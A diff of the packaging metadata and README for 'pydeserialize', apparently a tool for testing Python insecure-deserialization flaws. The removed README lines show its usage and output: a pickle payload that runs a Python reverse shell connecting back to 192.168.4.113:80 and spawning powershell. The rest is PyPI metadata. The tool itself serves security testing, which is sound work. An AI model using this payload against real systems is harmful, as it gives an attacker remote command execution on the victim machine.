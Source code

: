 ```diff
-
-# Executando pydeserialize
-
-```console
-pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
-
-           _                 _     _ _         
- ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
-| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
-|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
-|_| |___|  
-     v0.0.7 - @joaoviictorti     
-
-b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
-```
-
-<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
+Metadata-Version: 2.1
+Name: pydeserialize
+Version: 0.0.8
+Summary: Insecure deserialization in python
+Home-page: https://github.com/joaoviictorti/pyserialize
+Author: joaoviictorti (viictorjj)
+Author-email: joaovictorti08@gmail.com
+License: MIT License
+Keywords: serialize insegura desserialize
+Classifier: Development Status :: 5 - Production/Stable
+Classifier: Environment :: Console
+Classifier: Intended Audience :: System Administrators
+Classifier: License :: OSI Approved :: GNU General Public License v3 (GPLv3)
+Classifier: Natural Language :: English
+Classifier: Operating System :: OS Independent
+Classifier: Programming Language :: Python
+Classifier: Programming Language :: Python :: 3
+Classifier: Programming Language :: Python :: 3.8
+Classifier: Programming Language :: Python :: 3.9
+Classifier: Programming Language :: Python :: 3.10
+Classifier: Programming Language :: Python :: 3.11
+Classifier: Programming Language :: Python :: 3 :: Only
+Classifier: Programming Language :: Python :: Implementation :: PyPy
+Classifier: Topic :: Security
+Classifier: Topic :: System :: Networking
+Classifier: Topic :: System :: Operating System
+Classifier: Topic :: System :: Systems Administration
+Classifier: Topic :: Utilities
+Requires-Python: >=3.6, <4
+Description-Content-Type: text/markdown
+License-File: LICENSE
+
+<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>
+
+[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)](https://git.io/typing-svg)
+
+
+
+<h4 align="center">Tool for testing python insecure deserialization vulnerabilities</h4>
+
```
